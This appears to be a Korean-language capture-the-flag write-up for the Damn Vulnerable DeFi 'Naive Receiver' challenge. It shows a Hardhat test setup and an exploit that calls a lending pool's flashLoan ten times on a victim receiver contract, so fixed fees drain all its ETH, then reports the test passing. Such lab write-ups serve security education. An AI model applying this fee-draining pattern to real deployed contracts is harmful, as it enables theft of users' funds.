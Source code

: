 ```tsx
        [deployer, user, attacker] = await ethers.getSigners();

        const LenderPoolFactory = await ethers.getContractFactory('NaiveReceiverLenderPool', deployer);
        const FlashLoanReceiverFactory = await ethers.getContractFactory('FlashLoanReceiver', deployer);

        this.pool = await LenderPoolFactory.deploy();
        await deployer.sendTransaction({ to: this.pool.address, value: ETHER_IN_POOL });
        
        expect(await ethers.provider.getBalance(this.pool.address)).to.be.equal(ETHER_IN_POOL);
        expect(await this.pool.fixedFee()).to.be.equal(ethers.utils.parseEther('1'));

        this.receiver = await FlashLoanReceiverFactory.deploy(this.pool.address);
        await deployer.sendTransaction({ to: this.receiver.address, value: ETHER_IN_RECEIVER });
        
        expect(await ethers.provider.getBalance(this.receiver.address)).to.be.equal(ETHER_IN_RECEIVER);
    });

    it('Exploit', async function () {
				for(let i=0;i<10;i++){
            await this.pool.flashLoan(this.receiver.address,1);
        }
    });

    after(async function () {
        /** SUCCESS CONDITIONS */

        // All ETH has been drained from the receiver
        expect(
            await ethers.provider.getBalance(this.receiver.address)
        ).to.be.equal('0');
        expect(
            await ethers.provider.getBalance(this.pool.address)
        ).to.be.equal(ETHER_IN_POOL.add(ETHER_IN_RECEIVER));
    });
});
```

이 때 this.pool이 deploy된 NaiveReceiverLenderPool이고 this.receiver가 deploy된 FlashLoanReceiver(공격대상인 유저 컨트랙트)가 된다. 

```tsx
    it('Exploit', async function () {
				for(let i=0;i<10;i++){
            await this.pool.flashLoan(this.receiver.address,1);
        }
    });
```

즉 this.pool에서 flashLoan을 유저 컨트랙트의 주소인 this.receiver.address로 1이더만큼 빌리게 만들어서 실행시켜주면 된다. 

![공격 성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2c6ef2fd-7447-43a7-a8f5-c9eacef7da73/%EA%B3%B5%EA%B2%A9_%EC%84%B1%EA%B3%B5.png)

npm run naive-receiver를 통해 공격이 성공했는지 테스트 결과를 확인해 보면 공격이 정상적으로 성공했음을 확인할 수 있다.
